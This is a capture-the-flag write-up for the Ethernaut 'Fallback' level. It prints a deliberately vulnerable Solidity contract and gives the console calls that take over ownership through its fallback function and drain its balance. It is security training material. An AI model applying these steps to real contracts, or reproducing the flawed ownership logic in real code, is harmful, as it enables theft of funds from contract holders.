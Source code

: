 ## Ethernaut Level 01 - Fallback - Write-Up
<!--Authors: OofedUp-->

Difficulty: 1/10

![image](https://i.imgur.com/dz86HHW.png)

## Source
```javascript
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract Fallback is Ownable {

  mapping(address => uint) public contributions;

  function Fallback() public {
    contributions[msg.sender] = 1000 * (1 ether);
  }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(this.balance);
  }

  function() payable public {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

## Solve
In order to claim ownership, I noticed that the fallback function gives it to me:

```javascript
function() payable public {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

Before we can trigger it, we must call the `contribute` function once, since the fallback function requires us to have contributed before. I will contribute *900000000000000* WEI since it is equivalent to 0.0009 ether, just under the contribution threshold.

```javascript
contract.contribute({value: 900000000000000})
```

So I just send money to the contract, without any function, in order to trigger the fallback function. I could've also called an inexisting function, but since I had the `contract.sendTransaction()` function handy, I used that one:

```javascript
  contract.sendTransaction({value: 1337})
```

Let's check if we have become the owner:

![image](https://i.imgur.com/B20sh8Q.png)

We have! Now all that's left to do is call the `withdraw()` function on the contract and retrieve all the moneyzzz:

```javascript
contract.withdraw()
```

Now we can submit the instance since we solved the challenge.

![image](https://i.imgur.com/qVQ6g2y.png)
